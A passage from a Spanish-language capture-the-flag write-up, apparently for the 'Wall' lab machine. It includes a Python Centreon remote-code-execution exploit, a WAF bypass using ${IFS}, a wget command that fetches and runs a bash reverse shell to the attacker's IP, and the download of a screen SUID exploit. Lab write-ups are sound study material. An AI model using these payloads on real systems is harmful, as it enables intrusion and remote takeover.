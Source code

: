 ```python
    "ssh_port": "22",
    "init_script": "centengine",
    "nagios_bin": command,
    "nagiostats_bin": "/usr/sbin/centenginestats",
    "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
    "centreonbroker_cfg_path": "/etc/centreon-broker",
    "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
    "centreonbroker_logs_path": "",
    "centreonconnector_path": "/usr/lib64/centreon-connector",
    "init_script_centreontrapd": "centreontrapd",
    "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
    "ns_activate[ns_activate]": "1",
    "submitC": "Save",
    "id": "1",
    "o": "c",
    "centreon_token": poller_token}

RCE = sess.post(poller_conf, payload)
print(f"[+] Código de estado: {RCE.status_code}")

# Quinta petición: generar un xml para activar el comando de antes
generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
xml_page_data = {"poller": "1", "debug": "true", "generate": "true",}
sess.post(generate_xml_page, xml_page_data)
```

----------------------------
# Part 4: Bypaseando un WAF 
```console
└─$ python3 ./exploit.py 'whoami' # -> [+] Código de estado: 200
└─$ python3 ./exploit.py 'curl http://10.10.14.16' # -> [+] Código de estado: 403
```
Unos comandos funcionan y otros no. Puede que haya un WAF (firewall web)  
- Probar a cambiar espacios por "${IFS}" (una varaible de entorno que representa un espacio)  

```console
└─$ python3 ./exploit.py 'wget${IFS}10.10.14.16' 
└─$ sudo python3 -m http.server 80 # -> 10.10.10.157 - - [08/Dec/2022 18:25:08] "GET / HTTP/1.1" 200 -
```
Con curl no recibia una peticion pero con wget si.  

```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```
```console
└─$ python3 ./exploit.py 'wget${IFS}10.10.14.16/index.html${IFS}-O${IFS}/tmp/shell;${IFS}bash${IFS}-i${IFS}/tmp/shell'
```
``` wget 10.10.14.16/index.html -O /tmp/shell; bash -i /tmp/shell ```

----------------------------
# Part 5: Accediendo al sistema

Con eso accedí al sistema. ```sudo nc -nlvp 443```. Hice ```which curl``` para ver si existia ese comando y no.  
Subi mi script de reconocimiento:  
- Archivos de configuración: /etc/centreon/conf.pm /etc/centreon/centreon.conf.php   
- SUIDS -> /bin/screen-4.5.0  

Para screen hay un exploit.  
```console
www-data@Wall:/tmp$ wget 10.10.14.16/41154.sh -O /tmp/screen.sh
```